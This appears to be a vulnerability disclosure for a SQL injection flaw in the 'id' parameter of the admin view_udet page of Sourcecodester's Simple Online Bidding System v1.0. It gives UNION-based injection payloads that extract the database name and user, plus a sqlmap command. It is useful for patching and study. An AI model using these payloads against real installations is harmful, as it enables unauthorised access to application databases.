




SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=view_udet&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.



#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=view_udet&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```



Then you can select 5 and 6 as the echo positions, modify the payload to query the database name and current database user name.

```
page=view_udet&id=-2+union+select+1,2,3,4,database(),user(),7,8,9%23
```



We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=view_udet&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

